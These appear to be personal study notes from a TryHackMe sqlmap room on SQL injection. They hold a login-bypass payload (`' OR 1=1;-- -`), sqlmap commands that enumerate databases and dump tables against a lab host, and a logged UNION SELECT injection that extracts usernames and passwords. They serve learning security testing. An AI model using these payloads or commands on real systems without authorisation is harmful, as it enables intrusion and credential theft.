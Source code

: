 https://tryhackme.com/r/room/sqlmapthebasics
https://portswigger.net/web-security/sql-injection/cheat-sheet

- A login page for a web-system that doesn't incorporate 'proper' sanitisation and validation of data entered into username and password fields for example - can lead to the system becoming compromised. 
- Let's say we have such a system. An attacker attempts to login as "bob" (which is a legitimate username in the web-system)
- And the attacker enters `blahblah' OR 1=1;-- -` as the password
- The web-system will send a query similar to this to the related database:
	- `SELECT * FROM users WHERE username = 'bob' AND password = 'blahblah' OR 1=1;-- -';`
	- The database will see that bob is listed in the users table, however `blahblah` isn't the respective password for bob, BUT, there is another condition now, the `OR` condition which states `1=1` .. Which is obviously true so it will grant access for the said attacker to login
	- The `-- -` at the end of the query would comment anything after the `1=1`, meaning that the query would be executed successfully
	- The attacker has now logged in as user `bob` ... The THM link above explains this much better, although I hope you get the drift and these are notes more for me. :) 
		- *If you are reading, then kudos to you! (I at some stage will be revising all these notes into something a bit more, organised.)*

SQLMap
- An automated tool that is used for detecting and exploiting SQL Injection vulnerabilities in web-applications
- Simplifies the process of identifying these vulnerabilities
	- A sense of automation if you will
- `sqlmap --wizard`
- `--dbs`
	- Will enumerate/extract all DB names
- `-D database_name --tables`
	- Will then allow you to enumerate the tables in those DBs
- `-D database_name -T table_name --dump`
	- Will now allow the contents/records of that table to be enumerated

- First step is to look for a vulnerable URL or request
- Some URLs use GET requests/parameters to retrieve data
	- `http://sqlmaptesting.thm/search?cat=1`
	- uses a parameter `cat` that would take the value `1`
	- After searching for a cat, the URL responds with something like `cat=1` in the URL.. (The result of the GET Request )
- If you see any web-application using GET parameters in the URL to retrieve data, you can test that URL with the -u flag in the SQLMap tool (with permission from the systems owner!)
	- This is considered to be what is called `HTTP GET-based` testing
- Example:
	- `sqlmap -u http://sqlmaptesting.thm/search/cat=1`
		- (not going to include the results of the test, but just an example of a GET-based test command)
	- `sqlmap - u http://sqlmaptesting.thm/search/cat=1 --dbs --level=5`
		- Will get you additional DB names that the web-system connects/queries with
	- `sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables` --level=5
		- Now we can get some tables from one of those DBs, in this case `users`
		- `--level=5` can be used to extract all the available tables of a database
	- `sqlmap -u http://sqlmaptesting.thml/search/cat=1 -D users -T table-name --dump`
		- We can now `dump` the contents of the stated table, perhaps get some username and passwords (or password hashes) 
- POST-based testing can also be done
	- login forms, registration forms, that kind of thing
	- A POST Request needs to be intercepted on the login or registration page and saved as a txt/text file. 
	- Then:
		- `sqlmap -r intercepted-post-request.txt`
		- *more to cover on this*
- Getting the GET Request
	- IF the GET request doesn't show up in the URL after filling out some fields in a form on a web-page
		- One can try to inspect the page > network tab > enter in some random input into the text-fields > and see if the GET request shows up in the Network tab (general flow - browser dependant re the process here)
	- Make sure to put the URL between single-quotes to avoid errors with characters like `?`
	- 

Examples:
- The below is from a sql log file:
- ...`[GET /products.php?q=books' UNION SELECT null, null, username, password, null FROM users--` ...
	- The calling of the `'` before the `UNION SELECT` - the query can sometimes escape the legitimate SQL query with that single quote
	- Thus leading to an injected SQL query (selecting data related to Users from the "users" Table.)
- 
